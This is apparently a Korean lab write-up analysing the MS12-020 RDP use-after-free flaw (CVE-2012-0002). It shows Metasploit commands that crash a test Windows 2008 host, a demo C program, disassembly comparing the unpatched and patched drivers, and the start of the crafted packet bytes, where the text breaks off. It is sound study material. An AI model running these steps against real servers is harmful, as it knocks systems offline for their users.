# 취약점 분석 보고서 CVE-2012-0002


## Metasploit 취약성 테스트

### Nessus DB 정보 내보내기

Metasploit Exploit Framework를 통해 대상 서비스 취약성 점검을 하기 위해
Nessus를 바탕으로 점검한 결과를 DB 형태로 내보내기를 진행 파일은 xml
유형의 Nessus 확장자 구성으로 되어있으며 해당 파일일 작업 공간에 저장
한다.




### Metasploit workspace

Metasploit 상에 취약점 점검 대상의 정보를 관리하기 위해 Nessus DB정보를
받아와 작업할 공간을 만든다.




``` python
workspace -a \<작업 공간\>  \# 작업 공간 추가

workspace \<작업 공간\>     \# 작업 공간 이동
```

### Metasploit DB 연결 상태 확인 및 가져오기

데이터베이스 상태를 확인한 후 만약 실패로 나온다면 PostgreSQL 서비스를
키도록 한다. db_import 명령을 통해 다운 받은 Nessus DB 결과 정보를
불러온다.




``` python
db_status               \# DB 상태 확인

db_import \<파일 경로\>   \# DB 불러오기
```

### 점검 대상 서비스 정보 확인

services 명령을 통해 서비스 정보를 확인한 결과 점검 대상인 msrdp/3389
서비스가 열러 있음을 확인할 수 있다.




``` python
services

\# 192.168.111.146     3389     tcp         msrdp         open
```

### 점검 대상 호스트 정보

점검 대상 호스트 정보를 통해 네트워크 분류 기준을 정할 수 있다.




``` python
hosts

\# 192.168.111.146   00:0c:29:c2:1b:da  192.168.111.146   Windows 2008  SP1   server
```

### 취약점 검색

RDP 서비스에서 발생한 취약점 MS12-020을 기준으로 검색을 진행한다. 실제로
검사 대상이 취약한지를 테스트하기 위해 Metasploit framework 모듈을 통해
공격을 진행 한다.


search ms12-020

use auxiliary/dos/windows/rdp/ms12_020_maxchannelids

### ms12_020_maxchannelids 모듈 




``` python
※ T.125: 원격 회의, 화상 회의 및 컴퓨터 지원 공동 작업을 위한 지점 간
통신 프로토콜 모음이며 애플리케이션 공유, 온라인 채팅, 파일 공유 및 기타
기능 제공
```

## 모듈 옵션 설정


``` python
set RHOST 192.168.111.146

show options
```

## 공격

대상 서버를 대상으로 MS12-020 취약점 모듈을 실행한 결과 분석된 결과와
동일하게 BSOD가 발생한 것을 확인할 수 있다.




``` python
exploit  \#run 명령을 사용해도 된다.
```




# 분석 개요

## 취약점 분석 배경

외부망에 노출되어 있는 RDP 프로토콜은 해킹을 통해 시스템을 완전히 제어가
가능하기 때문에 대상 목록상 우선이 되곤 한다. 또한 공격자가 정상적인
프로토콜을 통해 시스템에 접속을 하기 때문에 보안 관리자가 악의적인
활동을 탐지하기 어렵다.




국가별 빈도

출처: https://www.shodan.io/

특히 최근에는 원격 화상회의 등 원격 업무 비율이 높아짐에 따라 RDP
서비스를 사용하는 빈도율이 높아져 사이버 범죄에 노출 여부가 커지고 있다.
동시에 기업 내에서는 RDP 서비스를 사용함에도 불구하고 인증 체계를
사용하지 않거나 접근 통제를 실시하지 않는 등 업데이트를 크게 중요시하지
않는 등 보안적으로 미흡이 되는 부분이 많다.

이번 분석에서는 RDP 프로토콜을 통한 서비스 거부 공격에 쓰이는
CVE-2012-0002를 분석할 것이다.

## CVE-2012-0002 취약점 요약

2012년 3월 14일 마이크로소프트는 비공개적으로 보고된 CVE-2012-0002의
원격 데스크톱 취약점을 패치하기 위해 MS12-020 긴급 업데이트를
진행하였다. 원격 데스크톱은 사용자들에게 빈도성이 높은 프로토콜로
Exploit 코드가 공개될 시 악용될 위험성이 매우 놓은 취약점이다. RDP
프로토콜은 데스크톱에 가상 세션을 만들어 이를 통해 사용자가 원격으로
컴퓨터에 있는 모든 데이터와 애플리케이션에 접근할 수 있게 한다. 공격자가
RDP의 취약점을 이용하면서 악성 코드를 설치하거나 프로그램을 삭제하는 등
사용자의 시스템을 완전히 제어할 수 있다. 2012년 3월까지는 서비스 거부
공격 코드만 공개되고 원격에서 실행 가능한 공격 코드는 알려지지 않았다.

# BSOD 메모리 덤프

## BSOD 메모리 덤프 환경 설정

**1. 메모리 덤프 구성**

BSOD 장애로 인한 메모리 덤프 저장을 하기 위해 설정을 진행한다.







**2. 메모리 덤프를 위한 디스크 할당**

기존에 사용하던 디스크 대신 사후에 메모리 덤프 분석이 끝난 후 폐기를 할
수 있도록 가상 하드 디스크를 추가한다.







**3. 디스크 구성**

가상 디스크를 할당한후 운영체제 환경에 디스크를 할당한다.







4\. BlueScreenView 설치

BSOD 장애가 발생할 환경에서 BSOD 덤프정보를 확인할 수 있는 프로그램 설치







BSOD 메모리 덤프 분석을 하기위한 환경 설정 과정을 마쳤다. 5.7.2 Windbg
동적 분석 장에서 분석하기 위해 사용될 것이기 때문에 환경 구성 한다. 현재
과정에서 CVE-2012-0002 취약점을 통한 공격을 수행한후 대상 서버에서 BSOD
장애가 발생하면 해당 메모리 덤프가 저장되어 분석을 할 수 있다.

# CVE-2012-0002 분석

## CVE-2012-0002 취약점 개요



## CVE-2012-0002 대상 시스템 목록

``` python
+------------------------+
| window XP              |
|                        |
| window Vista Ultimate  |
|                        |
| window Server 2003     |
|                        |
| window 7               |
|                        |
| window Server 2008, R2 |
+------------------------+
```


## CVE-2012-0002 취약점 원리




RDP가 사용되는 동작 방식은 네트워크 관리자가 다른 컴퓨터를 통해 원격으로
접속하는 동안에 해당 RDP 서비스를 인터넷을 통해 공유되고 있는 상태에서
발생된다. RDP는 메모리에 있는 패킷을 처리할 수 없기 때문에 이를 통해
공격자는 초기화에 실패했거나 현재 실행중인 개체에 대해 T.125
ConnectMCSPDU 패킷의 maxChannelids 필드 값을 5이하로 설정하여
Use-After-Free 취약점이 발생시킬 수 있는 변조된 RDP MCS 패킷 바이트를
페이로드로 작성하여 전송을 하여 공격 대상의 단말기에 BSOD 장애를
발생시켜 가용성을 무너트릴 수 있는 방식이다.

'
``` c
※ BlueScreen Of Death (BSOD): 마이크로소프트 윈도우 운영체제에서 시스템
오류를 복구하지 못할 때 나타나는 화면
```

## 공격 기법 및 기본 개념

### UAF (Use-After-Free)

C, C++ 언어를 활용하여 개발을 진행할 때 수동으로 동적 메모리를 할당을
하여 관리를 한다. 메모리를 기준에 맞게 관리를 하지 못하여 해제된
메모리에 접근을 시도하거나 메모리를 할당한 후 해제를 하지 않아 메모리
누수가 발생되어 큰 문제를 야기시킨다. 동적 메모리를 올바르게 관리하지
않아 발생하는 취약점 중 하나이다.

Use-After-Free 취약점은 해제된 메모리에 접근을 하여 값을 쓸 수 있는
취약점이다. UAF 취약점이 존재하는 소스 코드를 통해 과정을 살펴보겠다.
``` c
\#include \<stdio.h\>

\#include \<stdlib.h\>

\#include \<string.h\>

int main() {

    char \*bufA = (char\*)malloc(150);

    memset(bufA, 0, 150);

    /*1. bufA 변수에 문자열 복사*/

    strcpy(bufA, "boan Project");

    printf("%s\n", bufA);

    /*bufA 메모리 해제*/

    free(bufA);

    char *bufB = (char *)malloc(150);

    /*2. bufB 변수에 문자열 복사*/

    strcpy(bufB, "Exploit Zer0Luck");

    printf("%s\n", bufB);

    /*2. bufA 변수에 문자열 복사 (UAF)*/

    strcpy(bufA, "boan Project");

    printf("%s\n", bufB);

    return 0;

}
```

bufA 변수의 메모리를 총 150바이트 크기만큼 할당한 후 strcpy 함수를 통해
"boan Project" 문자열을 복사한다.


bufA 메모리를 해제한 후 새로운 150바이트 크기의 메모리를 bufB에
할당한다. strcpy 함수를 통해 "Exploit Zer0Luck" 문자열을 복사한다.


bufA의 메모리 상태를 보면 주소의 값은 바뀌지 않았다. 메모리 bufA, bufB가
같은 주소를 가리키고 있다는 점을 알 수 있다. 이미 해제되었던 메모리 bufA
가 메모리 할당자로 들어가고 새로운 메모리 영역을 할당할 때 메모리를
효율적으로 관리하기 위해 기존에 해제하였던 메모리가 그대로 대입되어
발생하는 현상이다.

이미 해제되었던 메모리 bufA에 접근을 하면 bufB가 같이 영향을 받기 때문에
개발자가 의도하지 않은 정상적인 범위를 벗어나게 되어 문제가 생긴다.


해제된 포인터 bufA와 새로 할당된 bufB가 같은 메모리 영역을 가리키고 있기
때문에 포인터 bufA에 "boan Project" 문자열을 복사한 후 포인터 bufB의
내용을 출력하면 문자열이 바뀐 것을 확인할 수 있다.




메모리를 부여하는 동적 메모리 함수들은 환경에 따라 다르겠지만 효율성을
위해 이미 해제하였던 메모리를 재사용한다. 이렇게 해제된 메모리 포인터에
만약 데이터를 쓰게 된다면 다른 영역에서 사용하고 있던 메모리에 데이터가
작성이 되어 큰 문제를 발생한다.

프로그램을 개발하면서 대규모로 진행되어 구조가 복잡 해질수록 UAF
취약점은 코드 영역에서 부분적으로 나타난다. 구성이 다른 컴포넌트들이
결합된 형태의 프로그램에서 두 컴포넌트가 서로 연결성을 띄면서 동작하는
경우 컴포넌트에서 객체나 메모리의 사용을 끝났다고 인지하여 해제를
하였지만 다른 컴포넌트에서는 해제되었다는 사실을 알지 못한 채 해제된
메모리를 그대로 사용할 수 있게 된다.

힙 메모리를 사용하는 프로그램에서는 메모리를 할당하는 부분이 동작이 다
다르기 때문에 UAF 취약점의 영향력은 판단하기가 어렵다. 현존하는
프로그램에서 공격이 불가능하다고 알려진 버그가 UAF 취약성을 통해서
실제로는 공격이 가능했던 취약점인 경우가 많이 발생한다.

### RDP (Remote Desktop Protocol)

**1. RDP (Remote Desktop Protocol) 이해**

RDP 프로토콜은 기본적으로 원격 컴퓨터 시스템과의 연결에 있어서 그래픽
적인 기능을 만족하도록 설계가 되었으며 사용자의 컴퓨터와 원격 컴퓨터
시스템과의 동작 사이에 확장적인 전송 메커니즘을 제공한다.

``` c

 1.  비디오 드라이버를 사용하여 렌더링 정보를 네트워크 패킷으로       
     구성하고 네트워크를 통해 네트워크를 통해 클라이언트로 전송하여   
     디스플레이 출력을 렌더링 한다.                                   
                                                                      
 2.  클라이언트에서 RDP 프로토콜은 렌더링 데이터를 받고 패킷을 해당   
     그래픽 장치 인터페이스 (GDI) API 호출로 해석한다.                
                                                                      
 3.  입력 경로의 경우 클라이언트 마우스 및 키보드 이벤트가            
     클라이언트에서 서버로 리다렉션된다.                              
                                                                      
 4.  서버에서 RDP 프로토콜은 자체 키보드 및 마우스 드라이버를         
     사용하여 이벤트를 수신한다.                                      

```


**2. RDP 프로토콜 기능**




**3. RDP 기반의 애플리케이션 설계 구성**

RDP 기반의 애플리케이션을 설계 구성요소로 터미널 서버, 전송 프로토콜,
클라이언트 로 구성된다. 일반적으로 원격 데스크톱 연결의 제어 터미널로
불리며 서버는 제어가 되는 터미널이다.




**4. RDP 프로토콜 연결 과정**

RDP 프로토콜의 표준 연결 순서는 클라이언트와 서버의 설정 정보를 상호
교환하면서 입력된다. 그래픽 정보, 데이터 등을 상호 교환을 하면서
클라이언트와 서버 간에 연결을 진행

``` c
 1.  클라이언트 서버가 네트워크 소켓 계층 초기 연결을 한 다음 RDP를   
     설정                                                             
                                                                      
 2.  프로토콜의 기본 연결이 확인된 후에만 통신을 시작한다.            
                                                                      
 3.  클라이언트와 서버의 시스템 환경과 RDP 연결 환경 간의 정보 교환   
     및 연결 확인 작업을 수행 (Connect Initial PDU)                   
                                                                      
 4.  RDP 프로토콜에서 이미지 정보, 사운드 정보, 장치 정보 및 클립     
     보드 컨텐츠는 모두 단일 가상 채널에 존재한다.                    
                                                                      
 5.  전송용 가상 채널의 초기화 정보는 Connect Initial PDU 과정에서    
     완료된다.                                                        
```


※ Protocol Data Unit (PDU): 데이터 통신에서 상위 계층이 전달한 데이터에
붙이는 제어정보 e.g. '네트워크 계층 (packet), 전송 계층 (segment)'







※ X.224: X.224 연결 요청 PDU는 RDP 연결 시퀀스의 연결 시작 단계 동안
클라이언트에서 서버로 전송되는 RDP 연결 시퀀스 PDU이다.

## RDP 드라이버 패치 전 후 코드 비교

**1. CVE-2012-0200 취약점 패치 전 RDP 드라이버 (v6.1.7600.16385) 버그
발생 부분**
``` c
HandleAttachUserReq() 함수에서 코드 수정이 이루어졌다.

.text:0002F900         lea     eax, \[ebp+P\]

.text:0002F903         push    eax

.text:0002F904         push    \[ebp+P\]

.text:0002F907         add     esi, 74h

.text:0002F90A         push    esi

.text:0002F90B         call    SListRemove

.text:0002F910 quit:

.text:0002F910         mov     al, 1
```

**2. CVE-2012-0200 취약성 업데이트된 RDP 드라이버 (v6.1.7600.16963)
부분**

업데이트 후 코드 블록을 살펴보면 취약점이 존재했던 버전에서
WDLIBRT_MemFree() 함수를 호출하는 것을 잊어버렸다는 사실을 알 수있다.
``` c
.text:0002F913         lea     eax, \[ebp+P\]

.text:0002F916         push    eax

.text:0002F917         push    \[ebp+P\]

.text:0002F91A         add     esi, 74h

.text:0002F91D         push    esi

.text:0002F91E         call    SListRemove

.text:0002F91E                                       ; 추가된 코드 블록 부분

.text:0002F923         mov     eax, \[ebp+P\]          ; EAX 포인터 복원 부분

.text:0002F926         cmp     eax, ebx              ; NULL 값과 비교

.text:0002F928         jz      short quit            ; 만약 NULL 값이면 QUIT

.text:0002F92A         cmp     \[eax+5\], bl

.text:0002F92D         jnz     short quit

.text:0002F92F         push    eax                   ; Pool Memory 해제

.text:0002F930         call    WDLIBRT_MemFree

.text:0002F935 quit:

.text:0002F935         mov     al, 1

**\
**
```
**3. Pool Memory 블록을 할당한 후 해제하는 함수 ExFreePollWithTag()**
``` c

.text:00013BA0 WDLIBRT_MemFree proc near   ; ExFreePoolWithTag()함수의 wrapper

.text:00013BA0

.text:00013BA0 P               = dword ptr  8

.text:00013BA0

.text:00013BA0         mov     edi, edi

.text:00013BA2         push    ebp

.text:00013BA3         mov     ebp, esp

.text:00013BA5         push    0           ; Tag값은 NULL 인 상태

.text:00013BA7         push    \[ebp+P\]     ; P \<- pool pointe, 인수로 전달한다.

.text:00013BAA         call    ds:ExFreePoolWithTag

.text:00013BB0         pop     ebp

.text:00013BB1         retn    4

.text:00013BB1 WDLIBRT_MemFree endp
```

※ wrapper 함수: 기존에 함수를 한 번 감싸고 원래 동작에 기능 처리를 추가하는 함수

※ Memory pool: C의 malloc, C++의 new 연산자와 유사한 메모리 동적할당을 가능하게 해준다.

다른
점은 malloc, new 연산자 같은 기능들은 다양한 블록사이즈 때문에 단편화를 유발시키고

조각
화된 메모리들을 퍼포먼스 때문에 실시간 시스템에서 사용할 수 없는 문제로 인해 Memory Pool을

사용한다. 효율적인 방법으로 동일한 사이즈의 메모리 블록들을 미리 할당해 놓고 특정 트리거에 의해

애플리케이션 이 필요할 때 마다. 메모리 블록들을 할당하고, 접근하고 해제할 수 있다

RDP 드라이버 패치 전 버그 부분에서 Pool Memory 해제를 하지 않았다는
사실을 알 수 있다. 해당 버그를 통해서 발생한 취약점이 루이지 아우라엠
(Luigi Auriemma)이 보고한 CVE-2012-0200 취약점이다. 루이지 아우리엠은
TCP/3389에서 RDP 서비스를 실행하는 취약한 서버를 충돌시키는 패킷을
발표하였다.

## 공격 코드

### 공격 코드 분석

공격코드는 크게 선언, 대상 서버로 전송되는 RDP 패킷 변조 페이로드 구성,
대상 서버로 전송, BSOD 발생여부로 나눌 수 있다.




**1. 공격 코드 RDP 패킷 변조**

RDP 연결과정에서 발생되는 패킷의 변조를 통해 페이로드가 작성된다. 크게
Client MCS Attach User Request PDU, maxChannelids filed, RDP connection
request 부분으로 나눠진다.




**2. RDP 연결 요청 인코딩 패킷 바이트 변조**

TPKT, X.224, COTP 패킷 바이트를 추가한다.







RDP 연결 요청 인코딩 부분의 패킷 바이트를 변조한 여부를 페이로드
부분에서 확인할 수 있다.


``` python
buf=\"\"

buf+=\"\\x03\\x00\\x00\\x13\" \# TPKT, Version 3, lenght 19

buf+=\"\\x0e\\xe0\\x00\\x00\\x00\\x00\\x00\\x01\\x00\\x08\\x00\\x00\\x00\\x00\\x00\" \# ITU-T Rec X.224
